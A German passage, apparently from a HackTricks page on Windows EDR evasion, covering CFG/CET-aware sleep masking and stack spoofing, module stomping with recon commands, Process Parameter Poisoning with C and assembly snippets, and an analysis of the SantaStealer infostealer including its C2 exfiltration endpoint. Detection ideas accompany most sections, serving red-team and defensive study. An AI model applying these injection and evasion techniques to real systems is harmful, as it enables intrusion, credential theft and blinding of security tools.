Bei CFG-aktivierten Zielen führt der erste indirekte Sprung in ein Mid-Function-Gadget wie `jmp [rbx]` oder `jmp rdi` meist zum Absturz des Prozesses mit `STATUS_STACK_BUFFER_OVERRUN`, da das Gadget nicht in den CFG-Metadaten des Moduls enthalten ist. Damit Ekko-/Kraken-artige Chains in gehärteten Prozessen funktionieren:<sup>[[30]](#references)</sup>

- Registriere jedes von der Chain verwendete indirekte Ziel mit `NtSetInformationVirtualMemory(..., VmCfgCallTargetInformation, ...)` und `CFG_CALL_TARGET_VALID`-Einträgen.
- Für Adressen in geladenen Images (`ntdll`, `kernel32`, `advapi32`) muss der `MEMORY_RANGE_ENTRY` bei der **Image-Basis** beginnen und die **gesamte Image-Größe** abdecken.
- Verwende für manuell gemappte/PIC-/gestompte Bereiche stattdessen die **Allokationsbasis** und die Allokationsgröße.
- Markiere nicht nur das Dispatch-Gadget, sondern auch indirekt erreichte Exports (`NtContinue`, `SystemFunction032`, `VirtualProtect`, `GetThreadContext`, `SetThreadContext`, Wait-/Event-Systemaufrufe) sowie alle ausführbaren, vom Angreifer kontrollierten Sections, die zu indirekten Zielen werden.

Damit werden Sleep-Chains im ROP-/JOP-Stil von „funktioniert nur in Nicht-CFG-Prozessen“ zu einer wiederverwendbaren Primitive für `explorer.exe`, Browser, `svchost.exe` und andere Endpunkte, die mit `/guard:cf` kompiliert wurden.

### CET-sicheres Stack-Spoofing für schlafende Threads

Ein vollständiger `CONTEXT`-Austausch ist auffällig und kann auf Systemen mit CET Shadow Stack Probleme verursachen, da ein gefälschtes `Rip` weiterhin mit dem Hardware-Shadow-Stack übereinstimmen muss. Ein sichereres Sleep-Masking-Muster ist:<sup>[[30]](#references)</sup>

- Wähle einen anderen Thread im selben Prozess und lies dessen Stack-Grenzen in `NT_TIB`/TEB (`StackBase`, `StackLimit`) über `NtQueryInformationThread` aus.
- Sichere den echten TEB/TIB des aktuellen Threads.
- Erfasse den echten Schlafkontext mit `GetThreadContext`.
- Kopiere **nur** das echte `Rip` in den Spoof-Kontext und lasse den gefälschten `Rsp`-/Stack-Zustand unverändert.
- Kopiere während des Sleep-Zeitraums den `NT_TIB` des Spoof-Threads in den aktuellen TEB, damit Stack-Walker innerhalb eines legitimen Stack-Bereichs unwinden.
- Stelle nach Ende des Waits den ursprünglichen TIB und Thread-Kontext wieder her.

So bleibt der Instruction Pointer mit CET konsistent, während EDR-Stack-Walker getäuscht werden, die den TEB-Stack-Metadaten vertrauen, um Unwinds zu validieren.

### APC-basierte Alternative: Kraken Mask

Wenn die Timer-Queue-Dispatch-Signatur zu auffällig ist, lässt sich dieselbe Abfolge aus Sleep, Verschlüsselung, Spoofing und Wiederherstellung über APCs in einem angehaltenen Hilfsthread ausführen:<sup>[[27]](#references)</sup>

- Erstelle einen Hilfsthread mit `NtTestAlert` als Einstiegspunkt.
- Stelle vorbereitete `CONTEXT`-Frames/APCs mit `NtQueueApcThread` in die Warteschlange und arbeite sie mit `NtAlertResumeThread` ab.
- Speichere den Chain-Zustand auf dem Heap statt auf dem Stack des Hilfsthreads, um ein Überlaufen des standardmäßigen 64-KB-Thread-Stacks zu vermeiden.
- Verwende `NtSignalAndWaitForSingleObject`, um das Start-Event atomar zu signalisieren und zu blockieren.
- Halte den Hauptthread an, bevor du TIB/Kontext wiederherstellst (`NtSuspendThread` → Wiederherstellen → `NtResumeThread`), um das Zeitfenster zu verkleinern, in dem ein Scanner einen teilweise wiederhergestellten Stack erfassen könnte.

Damit wird die Signatur aus `CreateTimerQueueTimer` + `NtContinue` durch eine Hilfsthread-/APC-Signatur ersetzt, während dieselben Ziele für RC4-Masking und Stack-Spoofing erhalten bleiben.

Zusätzliche Detection-Ideen
- `NtSetInformationVirtualMemory` mit `VmCfgCallTargetInformation` kurz vor Sleeps, Waits oder APC-Dispatch.
- `GetThreadContext`/`SetThreadContext` in Verbindung mit `WaitForSingleObject(Ex)`, `NtWaitForSingleObject`, `NtSignalAndWaitForSingleObject` oder `ConnectNamedPipe`.
- Auf `NtQueryInformationThread` folgende direkte Schreibvorgänge in die Stack-Grenzen des aktuellen Threads im TEB/TIB.
- `NtQueueApcThread`/`NtAlertResumeThread`-Chains, die indirekt `SystemFunction032`, `VirtualProtect` oder Hilfsfunktionen zur Wiederherstellung von Section-Berechtigungen aufrufen.
- Wiederholte Verwendung kurzer Gadget-Signaturen wie `FF 23` (`jmp [rbx]`) oder `FF E7` (`jmp rdi`) als Dispatch-Pivots in signierten Modulen.


## Präzises Module Stomping

Beim Module Stomping werden Payloads aus der **`.text`-Section einer DLL ausgeführt, die bereits im Zielprozess gemappt ist**, statt offensichtlichen privaten ausführbaren Speicher zu allozieren oder eine neue sacrificial DLL zu laden. Als Überschreibungsziel sollte ein **geladenes, dateigestütztes Image** dienen, dessen Codebereich die Payload aufnehmen kann, ohne Codepfade zu beschädigen, die der Prozess noch benötigt.<sup>[[1]](#references)[[2]](#references)</sup>

### Zuverlässige Zielauswahl

Naives Stomping gegen gängige Module wie `uxtheme.dll` oder `comctl32.dll` ist fragil: Die DLL ist im Remote-Prozess möglicherweise nicht geladen, und ein zu kleiner Codebereich kann den Prozess zum Absturz bringen. Ein zuverlässigerer Ablauf ist:

1. Zähle die Module des Zielprozesses auf und erstelle eine **Include-Liste mit ausschließlich Namen** bereits geladener DLLs.
2. Erstelle zuerst die Payload und ermittle ihre **exakte Byte-Größe**.
3. Durchsuche DLLs auf der Festplatte und vergleiche die PE-Section **`.text` `Misc_VirtualSize`** mit der Payload-Größe. Das ist wichtiger als die Dateigröße, da dieser Wert die Größe des ausführbaren Abschnitts **im gemappten Speicher** angibt.
4. Parse die **Export Address Table (EAT)** und wähle die RVA einer exportierten Funktion als Startoffset für das Stomping.
5. Berechne den **Blast Radius**: Wenn die Payload die ausgewählte Funktionsgrenze überschreitet, überschreibt sie angrenzende Exports, die danach im Speicher liegen.

Typische Recon-/Auswahl-Hilfsprogramme aus der Praxis:

```cmd
list-process-dlls.exe -p <PID> -n -o c:\payloads\modules.txt
python find-stompable-dlls.py -d c:\Windows\System32 -i c:\payloads\modules.txt <payload_size>
python dump-exports.py -f <dll_path>
python blast-radius.py -f <dll_path> -fnc <export_name> -s <payload_size>
```

Operative Hinweise
- Bevorzuge DLLs, die im Remote-Prozess **bereits geladen** sind, um die Telemetrie von `LoadLibrary`/unerwarteten Image-Loads zu vermeiden.
- Bevorzuge Exports, die von der Zielanwendung nur selten ausgeführt werden. Andernfalls könnten normale Codepfade die gestompten Bytes vor oder nach der Thread-Erstellung ausführen.
- Bei großen Implants muss die Einbettung des Shellcodes oft von einem Stringliteral auf einen **Byte-Array-/Braced-Initializer** umgestellt werden, damit der vollständige Buffer im Injector-Quellcode korrekt dargestellt wird.

Erkennungsideen
- Remote-Schreibvorgänge in **ausführbare Image-backed-Seiten** (`MEM_IMAGE`, `PAGE_EXECUTE*`) statt in die häufigeren privaten RWX-/RX-Allokationen.
- Export-Einstiegspunkte, deren Bytes im Speicher nicht mehr mit der Backing-Datei auf der Festplatte übereinstimmen.
- Remote-Threads oder Context-Pivots, deren Ausführung innerhalb eines legitimen DLL-Exports beginnt, dessen erste Bytes kürzlich geändert wurden.
- Verdächtige `VirtualProtect(Ex)`-/**`WriteProcessMemory`**-Sequenzen auf DLL-`.text`-Seiten, gefolgt von einer Thread-Erstellung.

## Process Parameter Poisoning (P3)

Process Parameter Poisoning (P3) ist eine **Process-Injection-/EDR-Evasion-Technik**, die den klassischen Remote-Write-Pfad (`VirtualAllocEx` + `WriteProcessMemory`) vermeidet. Statt Bytes in ein bereits laufendes Ziel zu kopieren, nutzt sie die Tatsache aus, dass Windows **ausgewählte Startparameter von `CreateProcessW` in den Child-Prozess kopiert** und sie in `PEB->ProcessParameters` (`RTL_USER_PROCESS_PARAMETERS`) speichert.<sup>[[28]](#references)[[29]](#references)</sup>

### Durch `CreateProcessW` kopierbare Poisoning-Träger

Nützliche Träger sind:

- `lpCommandLine` → `RTL_USER_PROCESS_PARAMETERS.CommandLine`
- `lpEnvironment` (mit `CREATE_UNICODE_ENVIRONMENT`) → `RTL_USER_PROCESS_PARAMETERS.Environment`
- `STARTUPINFO.lpReserved` → `RTL_USER_PROCESS_PARAMETERS.ShellInfo`

Praktische Einschränkungen der Träger:

- `lpCommandLine` muss für `CreateProcessW` auf **beschreibbaren Speicher** zeigen und ist auf **32.767 Unicode-Zeichen** einschließlich des Nullterminators begrenzt.
- `lpEnvironment` muss ein Unicode-Umgebungsblock aus aufeinanderfolgenden `NAME=VALUE\0`-Strings sein, der mit einem zusätzlichen `\0` endet.
- `lpReserved` ist offiziell reserviert. Daher sollte die Zuordnung zu `ShellInfo` als Implementierungsdetail und nicht als stabiler, dokumentierter Vertrag betrachtet werden.

Dadurch wird die normale Prozesserstellung zum **Payload-Transfer-Primitive**. Der Operator erstellt den Child-Prozess mit vom Angreifer kontrollierten Startdaten und lässt Windows die prozessübergreifende Kopie ausführen.

### Remote-Lookup-Ablauf ohne Remote-Write-APIs

Nach der Erstellung des Child-Prozesses wird der kopierte Buffer mit **schreibgeschützten** Primitives aufgelöst:

1. `NtQueryInformationProcess(ProcessBasicInformation)` → `PROCESS_BASIC_INFORMATION.PebBaseAddress` abrufen
2. Den Remote-`PEB` lesen
3. `PEB.ProcessParameters` folgen
4. `RTL_USER_PROCESS_PARAMETERS` lesen
5. Den ausgewählten Pointer verwenden:
   - `parameters.CommandLine.Buffer`
   - `parameters.Environment`
   - `parameters.ShellInfo.Buffer`

Minimaler Ablauf:

```c
NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &retLen);
NtReadVirtualMemoryEx(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), &bytesRead, 0);
NtReadVirtualMemoryEx(hProcess, peb.ProcessParameters, &params, sizeof(params), &bytesRead, 0);
// params.CommandLine.Buffer / params.Environment / params.ShellInfo.Buffer
```

### Ausführen des kopierten Parameterpuffers

Der kopierte Parameterbereich ist üblicherweise `RW` und nicht ausführbar. Eine gängige P3-Kette ist:

1. Den Prozess normal erstellen (nicht angehalten)
2. Die gewählte Parameterseite mit `NtProtectVirtualMemory` / `VirtualProtectEx` ausführbar machen
3. Den Hauptthread-Handle wiederverwenden, der bereits in `PROCESS_INFORMATION` zurückgegeben wurde
4. Die Ausführung mit `NtSetContextThread` umleiten (`CONTEXT_CONTROL`, `RIP` überschreiben)

Im Gegensatz zu klassischen Thread-Hijacking-Workflows sind hierfür **weder** `SuspendThread` **noch** `ResumeThread` erforderlich; der Kontext kann direkt über den zurückgegebenen Hauptthread-Handle geändert werden.

Dadurch werden mehrere APIs vermieden, die häufig auf Injection überwacht werden:

- `VirtualAllocEx` / `NtAllocateVirtualMemory(Ex)`
- `WriteProcessMemory` / `NtWriteVirtualMemory`
- `CreateRemoteThread` / `NtCreateThreadEx`
- häufig auch `SuspendThread` / `ResumeThread`

### Einschränkung durch Nullbytes und gestuftes Shellcode

Alle drei Träger sind **String- oder stringartige Daten**, daher wird ein roher Payload mit `0x00` während der Übertragung abgeschnitten. Eine praktische Lösung ist eine **nullbytefreie erste Stufe**, die Konstanten zur Laufzeit rekonstruiert und anschließend eine beliebige zweite Stufe lädt.

Ein einfaches Muster ist die XOR-basierte Synthese von Konstanten:

```asm
mov rax, XOR_A
mov r15, XOR_B
xor rax, r15 ; result = desired value, without embedding 0x00 bytes
```

This ermöglicht es der ersten Stufe, Stack-Strings, API-Argumente, DLL-Pfade oder einen Shellcode-Loader der zweiten Stufe zu erstellen, ohne Nullbytes in den übertragenen Parameter einzubetten.

### Stack-basierte API-Aufrufe aus der ersten Stufe

Wenn die erste Stufe APIs wie `LoadLibraryA` aufrufen muss, kann sie:

- den String/Puffer auf den Stack des Ziels legen
- den **32-Byte-x64-Shadow-Space** reservieren
- `RCX`, `RDX`, `R8`, `R9` auf Konstanten oder `RSP`-relative Zeiger setzen
- `RSP` vor dem Aufruf **16-Byte-ausgerichtet** halten

Eine zweite Stufe kann dann vom Stack in eine `PAGE_READWRITE`-Allokation kopiert, mit `VirtualProtect` auf `PAGE_EXECUTE_READ` umgestellt und angesprungen werden, wodurch eine direkte RWX-Allokation vermieden wird.

### Erkennungsideen

Gute Möglichkeiten für die Suche, die von den Autoren genannt werden:

- `VirtualProtectEx` / `NtProtectVirtualMemory`, die **Prozessparameterseiten ausführbar machen**
- diese Schutzänderung gefolgt von `SetThreadContext` / `NtSetContextThread`
- Remote-Lesezugriffe auf `PEB` und anschließend auf `RTL_USER_PROCESS_PARAMETERS`
- ungewöhnlich lange Werte oder Werte mit hoher Entropie in `lpCommandLine`, `lpEnvironment` oder `STARTUPINFO.lpReserved` bei der Prozesserstellung

### Hinweise

- P3 ist ein **prozessübergreifender Übertragungstrick**, für sich genommen aber keine vollständige Ausführungsprimitive: Für den kopierten Parameter sind weiterhin eine Änderung der Ausführungsberechtigung und eine Methode zur Umleitung der Ausführung erforderlich.
- `RtlCreateProcessReflection` / Dirty Vanity wurde von den Autoren in Betracht gezogen, aber verworfen, da intern verdächtige Primitive wie `NtWriteVirtualMemory` und `NtCreateThreadEx` verwendet werden.

## SantaStealer-Taktiken für dateilose Umgehung und Diebstahl von Zugangsdaten

SantaStealer (auch bekannt als BluelineStealer) veranschaulicht, wie moderne Info-Stealer AV-Umgehung, Anti-Analyse und den Zugriff auf Zugangsdaten in einem einzigen Workflow kombinieren.<sup>[[24]](#references)</sup>

### Einschränkung nach Tastaturlayout und Sandbox-Verzögerung

- Ein Konfigurationsflag (`anti_cis`) listet mit `GetKeyboardLayoutList` die installierten Tastaturlayouts auf. Wird ein kyrillisches Layout gefunden, erstellt das Sample eine leere `CIS`-Markierung und beendet sich, bevor Stealer ausgeführt werden. So wird sichergestellt, dass es in ausgeschlossenen Regionen nie ausgelöst wird, während ein Artefakt für die Suche zurückbleibt.

```c
HKL layouts[64];
int count = GetKeyboardLayoutList(64, layouts);
for (int i = 0; i < count; i++) {
    LANGID lang = PRIMARYLANGID(HIWORD((ULONG_PTR)layouts[i]));
    if (lang == LANG_RUSSIAN) {
        CreateFileA("CIS", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
        ExitProcess(0);
    }
}
Sleep(exec_delay_seconds * 1000); // config-controlled delay to outlive sandboxes
```

### Mehrstufige `check_antivm`-Logik

- Variante A durchläuft die Prozessliste, hasht jeden Namen mit einer benutzerdefinierten Rolling-Checksumme und vergleicht sie mit eingebetteten Blocklists für Debugger/Sandboxes. Anschließend berechnet sie die Checksumme erneut über den Computernamen und prüft Arbeitsverzeichnisse wie `C:\analysis`.
- Variante B untersucht Systemeigenschaften (Mindestanzahl von Prozessen, kürzliche Systemlaufzeit), ruft `OpenServiceA("VBoxGuest")` auf, um VirtualBox Additions zu erkennen, und führt Timing-Prüfungen rund um Sleeps durch, um Single-Stepping zu entdecken. Bei einem Treffer wird abgebrochen, bevor die Module starten.

### Dateiloser Helper + doppeltes ChaCha20-Reflective Loading

- Die primäre DLL/EXE enthält einen Chromium-Credential-Helper, der entweder auf die Festplatte geschrieben oder manuell in den Speicher gemappt wird. Im dateilosen Modus löst er Imports/Relocations selbst auf, sodass keine Helper-Artefakte geschrieben werden.
- Dieser Helper speichert eine zweite DLL-Stufe, die zweimal mit ChaCha20 verschlüsselt wurde (zwei 32-Byte-Schlüssel + 12-Byte-Nonces). Nach beiden Durchläufen lädt er den Blob per Reflective Loading (kein `LoadLibrary`) und ruft die Exports `ChromeElevator_Initialize/ProcessAllBrowsers/Cleanup` auf, die von [ChromElevator](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption) abgeleitet sind.<sup>[[25]](#references)</sup>
- Die ChromElevator-Routinen verwenden direct-syscall reflective process hollowing, um Code in einen laufenden Chromium-Browser einzuschleusen, AppBound-Encryption-Schlüssel zu übernehmen und Passwörter/Cookies/Kreditkartendaten trotz ABE-Härtung direkt aus SQLite-Datenbanken zu entschlüsseln.

### Modulare In-Memory-Erfassung und segmentierte HTTP-Exfiltration

- `create_memory_based_log` durchläuft eine globale Funktionzeigertabelle `memory_generators` und startet für jedes aktivierte Modul (Telegram, Discord, Steam, Screenshots, Dokumente, Browser-Erweiterungen usw.) einen Thread. Jeder Thread schreibt Ergebnisse in gemeinsam genutzte Puffer und meldet nach einem Join-Fenster von etwa 45 Sekunden die Anzahl seiner Dateien.
- Nach Abschluss wird alles mit der statisch gelinkten `miniz`-Bibliothek als `%TEMP%\\Log.zip` gepackt. `ThreadPayload1` wartet dann 15 Sekunden und überträgt das Archiv per HTTP POST in 10-MB-Chunks an `http://<C2>:6767/upload`, wobei eine Browser-`multipart/form-data`-Boundary (`----WebKitFormBoundary***`) vorgetäuscht wird. Jeder Chunk enthält `User-Agent: upload`, `auth: <build_id>` und optional `w: <campaign_tag>`. Beim letzten Chunk wird `complete: true` angehängt, damit der C2 weiß, dass die Zusammensetzung abgeschlossen ist.

## References

- [1] [Advanced Evasion Tradecraft: Precision Module Stomping](https://medium.com/@toneillcodes/advanced-evasion-tradecraft-precision-module-stomping-b51feb0978fe)
- [2] [toneillcodes/windows-process-injection](https://github.com/toneillcodes/windows-process-injection)
- [3] [Crystal Kit – blog](https://rastamouse.me/crystal-kit/)
- [4] [Crystal-Kit – GitHub](https://github.com/rasta-mouse/Crystal-Kit)
- [5] [Elastic – Call stacks, no more free passes for malware](https://www.elastic.co/security-labs/call-stacks-no-more-free-passes-for-malware)
- [6] [Crystal Palace – docs](https://tradecraftgarden.org/docs.html)
- [7] [simplehook – sample](https://tradecraftgarden.org/simplehook.html)
- [8] [stackcutting – sample](https://tradecraftgarden.org/stackcutting.html)
- [9] [Draugr – call-stack spoofing PIC](https://github.com/NtDallas/Draugr)
- [10] [Unit42 – New Infection Chain and ConfuserEx-Based Obfuscation for DarkCloud Stealer](https://unit42.paloaltonetworks.com/new-darkcloud-stealer-infection-chain/)
- [11] [Synacktiv – Should you trust your zero trust? Bypassing Zscaler posture checks](https://www.synacktiv.com/en/publications/should-you-trust-your-zero-trust-bypassing-zscaler-posture-checks.html)
- [12] [Check Point Research – Before ToolShell: Exploring Storm-2603’s Previous Ransomware Operations](https://research.checkpoint.com/2025/before-toolshell-exploring-storm-2603s-previous-ransomware-operations/)
- [13] [Hexacorn – DLL ForwardSideLoading: Abusing Forwarded Exports](https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/)
- [14] [Windows 11 Forwarded Exports Inventory (apis_fwd.txt)](https://hexacorn.com/d/apis_fwd.txt)
- [15] [Microsoft Learn – Dynamic-link library search order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [16] [Microsoft Learn – Process security and access rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)
- [17] [Microsoft – EKU reference (MS-PPSEC)](https://learn.microsoft.com/openspecs/windows_protocols/ms-ppsec/651a90f3-e1f5-4087-8503-40d804429a88)
- [18] [Sysinternals – Process Monitor](https://learn.microsoft.com/sysinternals/downloads/procmon)
- [19] [CreateProcessAsPPL launcher](https://github.com/2x7EQ13/CreateProcessAsPPL)
- [20] [Zero Salarium – Countering EDRs With The Backing Of Protected Process Light (PPL)](https://www.zerosalarium.com/2025/08/countering-edrs-with-backing-of-ppl-protection.html)
- [21] [Zero Salarium – Break The Protective Shell Of Windows Defender With The Folder Redirect Technique](https://www.zerosalarium.com/2025/09/Break-Protective-Shell-Windows-Defender-Folder-Redirect-Technique-Symlink.html)
- [22] [Microsoft – mklink command reference](https://learn.microsoft.com/windows-server/administration/windows-commands/mklink)
- [23] [Check Point Research – Under the Pure Curtain: From RAT to Builder to Coder](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)
- [24] [Rapid7 – SantaStealer is Coming to Town: A New, Ambitious Infostealer](https://www.rapid7.com/blog/post/tr-santastealer-is-coming-to-town-a-new-ambitious-infostealer-advertised-on-underground-forums)
- [25] [ChromElevator – Chrome App Bound Encryption Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [26] [Check Point Research – GachiLoader: Defeating Node.js Malware with API Tracing](https://research.checkpoint.com/2025/gachiloader-node-js-malware-with-api-tracing/)
- [27] [Sleeping Beauty: Putting Adaptix to Bed with Crystal Palace](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty/)
- [28] [SensePost – Process Parameter Poisoning](https://sensepost.com/blog/2026/process-parameter-poisoning/)
- [29] [Orange Cyberdefense – p3-loader](https://github.com/Orange-Cyberdefense/p3-loader)
- [30] [Sleeping Beauty II: CFG, CET, and Stack Spoofing](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty-ii)
- [31] [Ekko sleep obfuscation](https://github.com/Cracked5pider/Ekko)
- [32] [SysWhispers4 – GitHub](https://github.com/JoasASantos/SysWhispers4)
- [33] [blog.xpnsec.com - Hiding Your Dotnet Etw](https://blog.xpnsec.com/hiding-your-dotnet-etw)
- [34] [repnz/etw-providers-docs](https://github.com/repnz/etw-providers-docs)
- [35] [trustedsec.com - Abusing Chrome Remote Desktop On Red Team Operations A Practical Guide](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)
- [36] [Check Point Research - BTR Reforged: Weaponizing Defender's Remediation Driver as a Kernel Operation Primitive](https://research.checkpoint.com/2026/btr-reforged-weaponizing-defenders-remediation-driver-as-a-kernel-operation-primitive/)
- [37] [Dump-GUY - BTR_CLI](https://github.com/Dump-GUY/BTR_CLI)
- [38] [MDSec Function Peekaboo companion code](https://github.com/mdsecactivebreach/functionpeekaboo)
- [39] [MDSec - Function Peekaboo: Crafting Self-Masking Functions Using LLVM](https://mdsec.co.uk/2025/10/function-peekaboo-crafting-self-masking-functions-using-llvm/)
- [40] [Microsoft Learn - VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

{{#include ../banners/hacktricks-training.md}}
